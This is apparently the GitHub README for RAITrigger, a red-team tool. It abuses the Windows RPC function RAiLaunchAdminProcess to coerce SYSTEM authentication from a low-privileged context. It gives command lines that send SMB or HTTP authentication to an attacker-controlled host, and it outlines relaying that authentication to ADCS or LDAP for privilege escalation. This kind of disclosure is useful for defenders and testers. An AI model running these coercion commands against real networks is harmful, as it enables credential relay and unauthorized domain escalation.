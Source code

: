 # RAITrigger

The RPC-function `RAiLaunchAdminProcess` from the `appinfo.dll` library was in the past already used for [UAC bypass](https://googleprojectzero.blogspot.com/2019/12/) purposes.

It turns out, that this function can be called from any low privileged user (not to spawn a process) but to trigger SYSTEM authentication to an arbitrary location. This is because `CreateFileW` is called as SYSTEM to the first input parameter's location:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/SystemTrigger.png?raw=true" width="500">
</div>
<br>

As the low privileged user is still impersonated, this cannot be used as Potato trigger to elevate Privileges from `SEImpersonate` to SYSTEM:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/Impersonation.png?raw=true" width="500">
</div>
<br>

But it can be used to request a computer account certificate against ADCS when web enrollment is enabled with the incoming SMB authentication. Or it can be used for LPE with relaying to LDAP - when LDAP Signing is not enabled.

To Trigger SMB authentication:
```bash
[*] RAITrigger.exe \\attackerip\test\test.exe
```

To Trigger HTTP authentication (WebClient service needs to be enabled):
```bash
[*] RAITrigger.exe \\hostname@80\test\test.exe
```

HTTP authentication is only triggered to trusted intranet zone systems, so you will need to create an ADIDNS record for your Kali IP or be in the same subnet and use e.G. Responder. Never use the full FQDN, only the hostname.

Calling this function from remote (even with local administrator) leads to `rpc_access_denied` so this is no alternative to e.G. PetitPotam or similar:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/Denied.png?raw=true" width="500">
</div>
<br>


## Room for improvement

- The NtApiDotNet library is huge. Using MIDL bytes can drastically reduce the assembly size similar to [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers/)
